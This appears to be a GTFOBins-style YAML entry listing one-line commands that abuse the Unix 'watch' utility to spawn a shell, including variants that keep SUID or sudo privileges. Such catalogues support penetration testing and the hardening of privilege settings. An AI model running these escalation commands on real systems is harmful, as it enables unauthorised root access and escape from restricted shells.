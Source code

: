 ```yaml
---
functions:
  shell:
    - code: watch -x sh -c 'reset; exec sh 1>&0 2>&0'
  suid:
    - description: This keeps the SUID privileges only if the `-x` option is present.
      code: ./watch -x sh -p -c 'reset; exec sh -p 1>&0 2>&0'
  sudo:
    - code: sudo watch -x sh -c 'reset; exec sh 1>&0 2>&0'
  limited-suid:
    - code: ./watch 'reset; exec sh 1>&0 2>&0'
---
```

